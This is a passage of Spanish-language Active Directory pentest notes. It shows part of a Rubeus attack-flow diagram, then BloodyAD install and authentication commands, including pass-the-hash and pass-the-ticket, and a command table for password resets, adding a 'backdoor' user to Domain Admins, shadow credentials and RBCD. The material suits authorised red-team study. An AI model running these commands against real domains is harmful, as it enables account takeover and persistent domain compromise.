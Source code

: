              |
             v
     ┌───────────────────────────┐
     │  Movimiento lateral       │
     └───────────────────────────┘
        ptt (Pass-the-Ticket) → inyectar ticket robado
        asktgt (Overpass-the-Hash) → pedir TGT con hash

             |
             v
     ┌───────────────────────────┐
     │  Persistencia             │
     └───────────────────────────┘
        renew → renovar tickets existentes
        tgtdeleg → obtener TGT usando delegación



# BloodyAD

Instalar:

```
git clone https://github.com/CravateRouge/bloodyAD.git
cd bloodyAD
pip install -r requirements.txt
```

BloodyAD necesita credenciales o un método para autenticarse en el **Domain Controller (DC)**.

Usuario y contraseña:

```
bloodyAD -u "usuario" -p "contraseña" -d "DOMINIO.LOCAL" -dc-ip 192.168.1.10 <comando>
```

Pass the hash:

```
bloodyAD -u "usuario" -H "aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c" -d "DOMINIO.LOCAL" -dc-ip 192.168.1.10 <comando>
```

Pass the ticket:

```
export KRB5CCNAME=/ruta/a/ccache
bloodyAD -k -d "DOMINIO.LOCAL" -dc-ip 192.168.1.10 <comando>
```

Permite enumeración:

|Comando|Ejemplo|Utilidad|
|---|---|---|
|**get user**|`bloodyAD ... get user jsmith`|Muestra atributos del usuario _jsmith_ (correo, grupos, SID, etc.).|
|**get group**|`bloodyAD ... get group "Domain Admins"`|Lista los miembros del grupo _Domain Admins_.|
|**get domain-controllers**|`bloodyAD ... get domain-controllers`|Enumera todos los controladores de dominio.|
|**get dns-records**|`bloodyAD ... get dns-records`|Obtiene registros DNS almacenados en AD.|
|**set password**|`bloodyAD ... set password jsmith "NuevaPass123!"`|Cambia la contraseña de un usuario, sin conocer la anterior (si tienes permisos).|
|**add user**|`bloodyAD ... add user backdoor "Pass123!"`|Crea un nuevo usuario en AD.|
|**add member**|`bloodyAD ... add member "Domain Admins" backdoor`|Añade un usuario a un grupo específico (ej. escalar privilegios).|
|**add shadow-credentials**|`bloodyAD ... add shadow-credentials jsmith`|Inserta credenciales ocultas (ataque de _Shadow Credentials_).|
|**set rbcd**|`bloodyAD ... set rbcd target_computer compromised_machine`|Configura Resource-Based Constrained Delegation (RBCD) para pivotar/controlar un equipo.|